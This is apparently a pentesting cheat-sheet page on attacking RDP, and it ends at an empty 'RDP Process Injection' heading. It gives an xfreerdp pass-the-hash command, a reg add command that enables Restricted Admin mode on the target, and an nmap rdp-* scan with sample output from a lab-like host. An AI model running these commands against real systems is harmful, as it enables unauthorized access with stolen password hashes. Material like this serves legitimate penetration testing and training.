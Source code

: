 
### RDP with  PtH attack

```
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:$ip
# /pth:<hash>   Pass the hash

```


**Trobleshooting**: Restricted Admin Mode, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with an error. This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, we can use xfreerdp with the option /pth to gain RDP access.

### DoS

To check the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

nmap uses RDPcookies (mstshash=nmap) to interact with the RDP server. These cookies can be identified by  security services such as EDRs, and can lock us out, so we need to think twice before running that scan.

```bash
nmap -Pn -sV -p3389 --script rdp-*  $ip
```

Results:
```
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption:
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info:
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-11T12:16:26+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


### RDP Process Injection
